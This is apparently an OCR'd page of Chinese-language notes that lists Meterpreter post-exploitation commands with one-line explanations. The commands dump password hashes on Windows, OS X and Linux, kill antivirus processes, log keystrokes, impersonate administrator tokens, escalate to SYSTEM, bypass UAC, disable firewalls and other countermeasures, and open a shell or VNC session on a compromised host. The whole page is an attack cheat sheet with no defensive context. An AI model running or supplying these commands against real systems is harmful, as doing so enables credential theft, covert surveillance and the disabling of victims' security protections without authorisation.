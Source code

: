 meterpreter > hashdump

提示：在windows8中，若getsystem命令和hashdump命令抛出异常，则需要迁移到一个以system系统权限运行的程序中

自动迁移到一个独立进程

meterpreter > run migrate

通过Meterpreter的killav脚本杀死目标主机上运行的杀毒软件进程

meterpreter > run killav

针对一个特定的进程捕获目标主机上的键盘记录

meterpreter > ps

meterpreter > migrate 1436

meterpreter > keyscan_start

meterpreter > keyscan_dump

meterpreter > keyscan_stop

使用匿名方式来冒充管理员

meterpreter > use incognito

meterpreter > list_tokens -u

meterpreter > use priv

meterpreter > getsystem

meterpreter > list_tokens -u

meterpreter > impersonate_token INAZSEURITY\\Adminstrator

查看目标主机上采取了哪些防护措施，列出帮助菜单，关闭防火墙以及其他我们发现的防护措施

meterpreter > run getcountermeasure

meterpreter > run getcountermeasure -h

meterpreter > run getcountermeasure -d -k

识别被控制的主机是否为虚拟机

meterpreter > run checkvm

在Meterpreter会话中使用shell

meterpreter > shell

获取目标主机的图形界面

meterpreter > run vnc

使正在运行的Meterpreter界面在后台运行

meterpreter > backgroud

绕过windows用户账户控制UAC机制

meterpreter > run post/windows/escalate/bypassuac

导出os-x系统口令哈希值

meterpreter > run post/osx/gather/hashdump

导出linux系统口令哈希值

meterpreter > run post/linux/gather/hashdump


